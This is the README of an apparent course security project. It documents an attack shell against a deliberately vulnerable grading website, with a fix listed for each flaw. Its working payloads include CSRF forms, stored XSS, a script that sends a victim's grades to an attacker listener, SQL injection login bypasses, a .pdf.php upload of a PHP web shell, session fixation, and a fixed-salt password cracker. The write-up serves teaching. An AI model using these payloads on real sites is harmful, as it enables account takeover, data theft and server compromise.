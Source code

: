 * Summary
This is the readme file for FLAG.

* Dependency
Running the attack requires python installed with the following
packages:

- torando
- cmd2
- bs4

All of them can be easily installed through pip.

* How to run the attacks
First, open the shell by 

#+BEGIN_SRC bash
python shell.py
#+END_SRC

Then, login as the victim by typing

#+BEGIN_SRC 
>>> victim <victim_name>
#+END_SRC

which will open up firefox, and you may login as the victim (Please
login as the victim_name as you input, otherwise things might not work).

All the attacks will work against the logged in victim.

* Distinct Vulnerabilities 

** Cross-Site Request Forgery
To perform a csrf, I create a page in which there is an auto-submitted
form to the target url (in this case
"http://35.186.175.202/edit-profile.php"), along with parameters such
as "about_me". I also set its target to an invisible iframe in the
same page so that when victim clicks the bait link, he/she will not
notice page redirection.

To enable auto-submit, I used embedded javascript in the "onload"
attribute of "<body>":

#+BEGIN_SRC html
    <body onload="document.forms[0].submit();">
#+END_SRC

The shell command for this attack is "csrf", upon entered it will fire
up firefox with the attacker's site. Visiting the site when you have
logged in as the victim will change the victim's profile to whatever
you specified.

*** How to run the attack

#+BEGIN_SRC 
>>> csrf <profile_message>
#+END_SRC

*** How to fix
CSRF token can be an effective mitigation. 

The server should enforce that any state changing operation requires a
secure random token (e.g., CSRF token). Here's a quote from OWASP.

#+BEGIN_QUOTE
A CSRF token should be unique per user session, large random value,
and also generated by a cryptographically secure random number
generator. The CSRF token is added as a hidden field for forms
headers/parameters for AJAX calls, and within the URL if the state
changing operation occurs via a GET.
#+END_QUOTE

By requiring csrf token in every state changing operation, csrf attack
can be largely mitigated.

** Stored XSS
To perform stored XSS, I created a page which will store arbitrary
code we want to inject. In shell.py we inject the following javascript
snippet to the page "/profile.php":

#+BEGIN_SRC javascript
<script>alert('You are XSS-ed!')</script>
#+END_SRC

This will cause any visit to "/profile.php" to run the snippet and
pops up alert.

*** How to run the attack

#+BEGIN_SRC 
>>> sxss
#+END_SRC

*** How to fix it
By using output escaping/encoding properly, SXSS can be
avoided. Generally, we should escape/encode special characters in
unstructed data before inserting into the pages or storing them in
database.

Firstly, we should never allow untrusted data to be inserted to HTML.
Secondly, we should escape HTML before inserting untrusted data into
HTML element content.  Additionally, we should also escape attributes
before inserting untrusted data to HTML.  And we should also escape
javascript before inserting to javascript data values.

If we were to perform sanitazation, we should use the whitelist method
instead of the blacklist method. That is, we only allow the characters
in a whiltelist and rejects all characters outside this list.

** Cross-Site Data Access (xsda)
I used SXSS as a stepstone for xsda. First, I inject the a javascript
snippet in the comment section of the victim's profile.

#+BEGIN_SRC javascript
<script>
var xhr = new XMLHttpRequest();
xhr.onload = function() {{
    console.log(xhr.response);
    var sender = new XMLHttpRequest();
    sender.open('POST', 'http://localhost:{port}/grades', true);
    sender.send(xhr.response);
}}
xhr.open('GET', '/list-grades.php', true);
xhr.send(null);
</script>
#+END_SRC

Which will initiate an XMLHttpRequest to "/grades" and fetch all the
grades of the victim. Upon receiving the html containing the grade
table, it initiate another XMLHttpRequest to send all the grades to a
local server we set up through a certain port.

Next, we visit the local server's page and we shall see the grade of
the victim.

*** How to run the attack

#+BEGIN_SRC 
>>> xsda
#+END_SRC

Note: the web server we set up is running in a thread, so feel free to
type enter and continue using the shell.

*** How to fix it

Similar to how to prevent SXSS and CSRF, we should both use csrf
tokens as well as properly escape untrusted data before inserting into
pages or storing them in database.

** SQL Injection
I discovered a SQL injection vulnerability in several places. One of
the most severe one is in the login page.

The server side does not properly escape special characters like
double quotes and dashes, allowing attackers to perform SQL injection.

Specifically, we can login as any user using the following using name

#+BEGIN_SRC 
<username>";--
#+END_SRC

where <username> is the username you want to login as. Additionally,
we can use the following to login as the first person in the users
database.

#+BEGIN_SRC 
" OR 1 = 1; --
#+END_SRC

This causes the SQL query in the server side to retrieve all the user
records. And when it wants to access the user info, it uses 

#+BEGIN_SRC php
$users[0]
#+END_SRC

which gives us the first user -- Roberto.

I should mention this later but using reverse-shell we can find the
exact code that causes this vulnerability. It's in
"/var/www/include/db.php:14:15", "/var/www/include/db.php:38", and triggered by
"/var/www/include/user.php:118:122".

#+BEGIN_SRC php
$args = array_map(array($this, 'quote'), $args);
$query = str_replace(array_keys($args), array_values($args), $query);
...
private static function quote($str)
{
    return '"' . $str . '"';
}
#+END_SRC

Here the function quote simply surround $str with two double quotes
without any sanitization whatsoever, which causes the vulnerability.

*** How to run the attack

#+BEGIN_SRC 
>>> sql_injection
#+END_SRC

This will gives us a page with a ready-to-inject form. We can click
the inject button and it will gives us the main page of Roberto.

*** How to fix it

1. Use prepared statements with parameterized queries
2. Use stored procedures
3. Whitelist input validation
4. Escape all user supplied input

** File Upload
In my own opinion, this is by far the most dangerous vulnerability. I
noticed that the server will only allow users to upload pdf
files. However, the way it checks whether it's a pdf file is
problematic.

Upon experiment, I found that it only checks whether the file
extension contains the string "pdf". However, a file can have a long
extension with several dots in between. For example, one can upload a
file "evil.pdf.php" to the server and it will be accepted. Upon next
visit, apache server detects that the actual file type is php, so it
will execute the file as a php script. This allows us to execute
arbitrary program with the same priviledge as the web server itself.

I uploaded a phpbase script as an assignment and the server accepts
it. Using it I can download all the server scripts for further
investigation which allows the last attack (i.e. bad password hashing)
possible.

Additionally, I also found that the assignment name hashing function
is predictable. By examining "user.php:144", I found that it's a sha1
hash of "$username_$assignment", where $username is the username of
the user and $assignment is one of {"cryptography", "flag", "dropbox",
"handin"}. Using this knowledge I can compute the url of the submitted
file without visiting the assignment page. This gives more freedom to
the attacker when doing testing.

*** How to run the attack

#+BEGIN_SRC 
>>> fileupload
#+END_SRC

Then, we choose "phpbash.pdf.php" and then submit. Next, we can click
the button below to visit the file and you should see the phpbash.

Note: the fileupload page will upload the file to the current
logged-in user. So if you are "Alice" the uploaded file will only be
visible if you are logged-in as "Alice" but not as someone else.

*** How to fix it

1. Use whitelist file extension validatoin
2. Validate full filename instead of only a subset
3. Use "Content-Type" header validation
4. Use a file type detector
5. Detect server-side runnable script in file (e.g. php snippet in png
   files) and reject such cases
6. Don't allow access to upload directory
7. Implement custom logic in file getter service

** Insecure Direct Object Reference
I found that almost all server-side resources can be accessed through
direct object reference in the url. For example, there's a file called
"index.tpl" which serves as the template of the main page of the
website. Normally it shouldn't be accessed. However, using the
following url we can access it:

    http://35.186.175.202/include/templates/index.tpl

I listed a few other resources that shouldn't be accessed by users but
can be accessed because of this vulnerability.

*** How to run the attack

#+BEGIN_SRC 
>>> directaccess
#+END_SRC

*** How to fix it
1. Store resources in database instead of file system
2. Whitelist url validation
3. Use single-component paths

** Session Fixation
I found that the server keeps the session when re-authenticating the
user, making it possible to use an existing session ID. The attack
consists of obtaining a valid session ID as an attacker, and then
inducing the victim to authenticate himself/herself with the session
ID. Then we hijack the user-valided session by knowing the session ID.

For this particular site, the session is stored in cookie. Therefore I
uses an SXSS to change the document.cookie property to the target
session ID.

*** How to run the attack

#+BEGIN_SRC 
>>> session_fixation <sessionIDcookie>
#+END_SRC

First we obtain the session ID in the form of "PHPSESSID=kljkasf...",
and then use the above command. The command will open an html page to
firstly inject the following SXSS script, which changes the session ID
as we desired. 

#+BEGIN_SRC javascript
<script>
setInterval(function(){{ document.cookie=&#34;{}&#34;;}}, 500);
</script>
#+END_SRC

Here "&#34;" is the html encoding of the double quote.

Then we can click the button to visit the profile page. Notice that we
are now logged in as the attacker.

*** How to fix it
1. Generate new session upon user authenticate
2. If a user submits a session ID via a different exchange mechanism,
   such as URL, server should reject it and require re-authenticate
3. Use HttpOnly attribute for cookie (disallows javascript access/modify cookie)
4. Use Secure attribute for cookie (disallows sending cookie via
   insecure HTTP connection)
5. Use proper Expire and Max-Age attribute to force re-authenticate
6. Disallow browser cross-tab session

** Bad Password Hashing
As mentioned before, the server contains a bad password hashing
vulnerability. Specifically, it uses the same salt for every
password. This allows us to perform frequency analysis since the hash
is now deterministic. Furthermore, if we know the salt, we can run
intelligent password cracking very efficiently.

I found out that the salt they use is the string
"supersecretsalt". Combining with a php script that list all the
users' password hash, and a popular password dictionary, we can
perform an intelligent password cracking.

Specifically, this is the server code for password hashing

#+BEGIN_SRC php
    /* This algorithm uses salting and stretching! It is super secure. -- Bob, Nov 15th 2012 */
    public static function hash_password($pwd)
    {
        $salt = 'supersecretsalt';
        for ($i = 0; $i < 30; ++$i)
        {
            $pwd = sha1($salt . $pwd);
        }
        return $pwd;
    }
#+END_SRC

I wrote a go program to hash every password in the rockyou.txt and see
if we can find a match.

#+BEGIN_SRC go
func hashpwd(pwd string) string {
	var pwdBytes []byte
	pwdBytes = append(pwdBytes, []byte(pwd)...)
	salt := []byte("supersecretsalt")
	for i := 0; i < 30; i++ {
		content := append(salt, pwdBytes[:]...)
		digest := sha1.Sum(content)
		pwdBytes = []byte(hex.EncodeToString(digest[:]))
	}
	
	return string(pwdBytes)
}
#+END_SRC

We sucessfully crack the password hash of all the staff's account.

*** How to run the attack

#+BEGIN_SRC 
>>> badpassword
#+END_SRC

Then upload "getpasswords.pdf.php".

Visit the link via clicking the button.

Copy the target hash.

#+BEGIN_SRC 
>>> crack <hash> <dictionary>
#+END_SRC

For example, use 
#+BEGIN_SRC 
>>> crack <hash> ./rockyou.txt
#+END_SRC

*** How to fix it
1. Use random, different salt for each user/password.
2. Enforce stricter rule on password choice (e.g. Must have 1 special
   character, 1 capital letter, 1 number)
3. Use secure hash function (e.g. SHA256), and never use outdated ones
   (SHA1 and MD5).
4. Do not develop your own crypto hash function.

